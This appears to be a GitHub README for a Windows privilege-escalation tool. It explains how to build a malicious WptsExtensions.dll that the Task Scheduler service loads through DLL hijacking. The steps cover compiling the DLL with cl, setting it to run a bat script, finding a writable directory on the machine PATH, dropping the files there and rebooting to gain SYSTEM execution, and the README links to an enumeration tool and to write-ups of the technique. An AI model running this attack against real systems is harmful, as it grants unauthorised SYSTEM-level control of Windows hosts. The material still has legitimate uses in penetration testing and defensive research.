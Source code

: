 ## WptsExtensions.dll for exploiting DLL Hijacking (task scheduler)  
  
- Load x64 visual studio environnement variables:  
```
"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat"
```
  
- Update the ```TCHAR script[]``` variable with a writable SYSTEM path where the DLL will be looked for.  
  Check this [tool](https://github.com/itm4n/PrivescCheck) to find ones.  
    
  You can also list this environment variable thanks to:  
  ```powershell -c "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"```.
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot  
  
Tool to use during your privesc:  
[https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)  
  
Articles:  
[https://itm4n.github.io/windows-dll-hijacking-clarified/](https://itm4n.github.io/windows-dll-hijacking-clarified/)  
[http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html](http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html)
